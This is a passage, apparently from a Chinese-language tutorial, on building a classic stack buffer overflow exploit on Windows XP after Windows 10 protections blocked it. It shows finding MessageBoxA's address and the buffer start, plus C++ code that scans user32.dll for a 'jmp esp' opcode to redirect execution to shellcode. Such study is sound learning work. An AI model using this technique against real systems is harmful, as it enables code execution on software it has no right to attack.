 | FFD0       | CALL EAX           |                     |

![MLLowj.png](https://s2.ax1x.com/2019/11/24/MLLowj.png)

由于win10保护机制太强，没有办法显示messagebox

换到xp系统上实现

先找到messageboxA的入口地址

![MLOene.png](https://s2.ax1x.com/2019/11/24/MLOene.png)

再找到buff起始地址

![MLO8c8.png](https://s2.ax1x.com/2019/11/24/MLO8c8.png)

![MLON7j.png](https://s2.ax1x.com/2019/11/24/MLON7j.png)

![MLOsjU.png](https://s2.ax1x.com/2019/11/24/MLOsjU.png)

定位shellcode，找jmp esp指令

```c++
#include <windows.h>
#include <stdio.h>
#define DLL_NAME "user32.dll"
main()
{
    BYTE* ptr;
    int position,address;
    HINSTANCE handle;
    BOOL done_flag = FALSE;
    handle=LoadLibrary(DLL_NAME);
    if(!handle)
    {
        printf(" load dll erro !");
        exit(0);
    }

    ptr = (BYTE*)handle;

    for(position = 0; !done_flag; position++)
    {
        try
        {
            if(ptr[position] == 0xFF && ptr[position+1] == 0xE4)
            {
                //0xFFE4 is the opcode of jmp esp
                int address = (int)ptr + position;
                printf("OPCODE found at 0x%x\n",address);
            }
        }
        catch(...)
        {
            int address = (int)ptr + position;
            printf("END OF 0x%x\n", address);
            done_flag = true;
        }
    }
}
```
